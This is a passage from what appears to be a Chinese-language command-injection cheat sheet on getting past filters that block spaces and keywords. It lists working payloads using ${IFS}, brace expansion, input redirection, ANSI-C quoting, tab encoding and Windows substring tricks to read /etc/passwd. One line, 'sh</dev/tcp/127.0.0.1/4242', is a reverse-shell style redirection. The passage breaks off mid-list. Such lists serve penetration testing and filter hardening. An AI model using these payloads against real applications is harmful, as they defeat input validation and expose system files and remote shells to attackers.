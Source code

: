 - `$IFS` 是一个特殊的 shell 变量，称为内部字段分隔符。默认情况下，在许多 shell 中，它包含空白字符（空格、制表符、换行符）。当在命令中使用时，shell 会将 `$IFS` 解释为空格。`$IFS` 不能直接在 `ls`、`wget` 等命令中作为分隔符使用；应使用 `${IFS}` 代替。

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

- 在某些 shell 中，花括号扩展可以生成任意字符串。执行时，shell 会将花括号内的项视为单独的命令或参数。

  ```powershell
  {cat,/etc/passwd}
  ```

- 输入重定向。`<` 字符告诉 shell 读取指定文件的内容。

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```

- ANSI-C 引用

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

- 制表符有时可以用作空格的替代品。在 ASCII 中，制表符由十六进制值 `09` 表示。

  ```powershell
  ;ls%09-al%09/home
  ```

- 在 Windows 中，`%VARIABLE:~start,length%` 是用于对环境变量进行子字符串操作的语法。

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```

### 使用换行符绕过

命令也可以使用换行符顺序执行

```bash
服务器原始命令
ls
```

### 使用反斜杠和换行符绕过

- 可以通过使用反斜杠后跟换行符将命令分成多个部分

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```

- URL 编码的形式如下：
